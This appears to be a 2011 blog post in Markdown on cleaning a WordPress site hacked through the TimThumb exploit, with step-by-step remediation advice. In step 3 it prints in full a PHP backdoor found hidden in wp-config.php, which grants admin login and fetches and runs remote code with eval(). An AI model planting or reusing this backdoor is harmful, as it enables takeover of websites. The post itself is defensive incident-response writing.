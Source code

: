 ```yaml
---
title: Warning - Something's Not Right Here
date: 2011-09-30 12:00
author: Blake Embrey
layout: article
---
```


![Chrome is broken](images/2011-09-warning.png)

About two days ago, I received a warning from Google saying my website has been exploited and hacked. Of course, the emails they sent I never received, so I didn’t realise I had an issue until about an hour ago. My first reaction was OMG, WTF! I knew it most likely had something to do with the recent TimThumb exploit, but I didn’t even know my theme had TimThumb included. I also looked at the Google diagnostic repost which it linked me to, which I found the malware related to `counter-wordpress.com`.

First of all, I would advise running the script found at [Sucuri](http://blog.sucuri.net/2011/08/timthumb-php-security-vulnerability-just-the-tip-of-the-iceberg.html). Then, scan your site using the [Sucuri Site Scanner](http://sitecheck.sucuri.net/scanner/) to find out which pages they have exploited and how. This is the best little site I have found for this, and I would definitely bookmark it for future reference as well if I were you.

Extremely quickly, I jumped to action. This is the exact steps I took and you can take too, to remove the exploits from your code:

1. Delete the following files:

```
wp-admin/upd.php
wp-content/upd.php
```

2. Log into WordPress admin and reinstall your WordPress version. We are focusing on these three files:

```
wp-settings.php
wp-includes/js/jquery/jquery.js
wp-includes/js/l10n.js
```

3. Open "`wp-config.php`" and look for anything that seems out of place. In mine, I found a script which appears to harvest login credentials/cookies, which found on the 2000 or so line. Above and a few thousand lines below were all blank:

```php
if (isset($_GET['pingnow'])&& isset($_GET['pass'])){
if ($_GET['pass'] == '19ca14e7ea6328a42e0eb13d585e4c22'){
if ($_GET['pingnow']== 'login'){
$user_login = 'admin';
$user = get_userdatabylogin($user_login);
$user_id = $user->ID;
wp_set_current_user($user_id, $user_login);
wp_set_auth_cookie($user_id);
do_action('wp_login', $user_login);
}
if (($_GET['pingnow']== 'exec')&&(isset($_GET['file']))){
$ch = curl_init($_GET['file']);
$fnm = md5(rand(0,100)).'.php';
$fp = fopen($fnm, "w");
curl_setopt($ch, CURLOPT_FILE, $fp);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_TIMEOUT, 5);
curl_exec($ch);
curl_close($ch);
fclose($fp);
echo "<SCRIPT LANGUAGE="JavaScript">location.href='$fnm';</SCRIPT>";
}
if (($_GET['pingnow']== 'eval')&&(isset($_GET['file']))){
$ch = curl_init($_GET['file']);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_TIMEOUT, 5);
$re = curl_exec($ch);
curl_close($ch);
eval($re);
}}}
```

4. In your theme, look for anywhere the TimThumb script may be storing the cached files. These are generally along the lines of:

```
wp-content/themes/theme-name/scripts/cache/external_{MD5Hash}.php
wp-content/themes/theme-name/temp/cache/external_{MD5Hash}.php
```

If you found anything like the above, delete it straight away. If you're not sure, delete every file that isn’t an image.

5. Replace `timthumb.php` with the latest version found at `http://timthumb.googlecode.com/svn/trunk/timthumb.php`.

6. Change your MySQL and login password and update wp-config.php to correspond with the update.

7. Change the secret keys in `wp-config.php`.

8. Clear your browsers cache and cookies.

9. Empty any page caching plugins you may have enabled to push the updates through to your visitors.

Throughout this, I also found a botting script and some spam black hat links. Make sure you scan your site using the [Sucuri Site Scanner](http://sitecheck.sucuri.net/scanner/) once again to make sure you removed all the exploits. When you are sure you have removed everything, submit your site to Google for review. This can be done in the `Diagnostics -> Malware` tab of your Google Webmaster account. To keep up with anymore potential exploits, I would recommend following their fantastic blog found at [blog.sucuri.net](http://blog.sucuri.net/).
